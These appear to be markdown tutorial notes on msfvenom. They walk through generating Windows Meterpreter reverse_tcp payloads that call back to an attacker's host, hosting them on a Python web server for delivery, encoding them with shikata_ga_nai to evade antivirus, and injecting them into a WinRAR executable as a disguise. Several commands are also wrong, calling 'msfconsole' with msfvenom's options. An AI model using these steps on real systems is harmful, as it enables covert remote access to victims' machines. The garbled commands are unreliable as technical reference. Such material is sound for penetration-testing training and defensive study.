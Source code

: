 
### What is `msfvenom` ?

+ Msfvenom is a command line utility that can be used to generate and encode MSF payloads for various operating systems as well as web servers.

+ Msfvenom is a combination of two utilities, namely; msfpayload and msfencode.

+ We can use Msfvenom to generate a malicious meterpreter payload that can be transferred to a client target system. Once executed, it will connect back to our payload handler and provide us with remote access to the target system.

### How to use `msfvenom` ?

1. We can see the list of all the payloads using 
```
msfvenom --list payloads
```

3. We can create a 32 bit staged payload using this command
```
msfconsole -a x86 -p windows/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<port> -f exe > <path-to-save>/shell.exe
```

3. We can check the list of formats we can output our payloads into
```
msfvenom --list formats
```

4. We can send the payload to the target by hosting it in a Python web server.
```
sudo python -m SimpleHTTPServer 80
```

### Encoding `msfvenom` payloads

+ Given that this attack vector involves the transfer and storage of a malicious payload on the client's system (disk), attackers need to be cognisant of AV detection.

+ Most end user AV solutions utilize signature based detection in order to identify malicious files or executables.

+ We can evade older signature based AV solutions by encoding our payloads.

+ Encoding is the process of modifying the payload shellcode with the objective of modifying the payload signature.

	**What is a `ShellCode` ?**
	+ `Shellcode` (shell-code) is a piece of code typically used as a payload for exploitation.
	+ It gets its name from the term command shell, whereby `shellcode` is a piece of code that provides an attacker with a remote command shell on the target system.

- We can check the list of encoders available
```
msfconsole --list encoders
```

- We can use encoders using the `-e` switch. We can specify the number of iterations using `-i` switch. The payload size will increase with the number of iterations. 10 should be an effective number of iterations.
```
msfconsole -a x86 -p windows/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<port> -i 10 -e x86/shikata_ga_nai -f exe > <path-to-save>/shell.exe
```

### Payload Injection

- We can inject payloads into Windows portable executables to evade signature based AVs.

- Some executables do not allow successful injection. 

- Download the executable we want to inject our payload into. In our case, we'll be using WinRAR executable. 

- Use the `msfvenom` command.
```
msfconsole -a x86 -p windows/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=<port> -f exe -x <path-to-exe> > <name-of-payload>.exe
```

- The payload will look like the actual WinRAR executable, however it won't retain the functionalities of the actual executable.

- We can use `-k` switch to retain the functionalities of the original file, but chances are that it won't work.

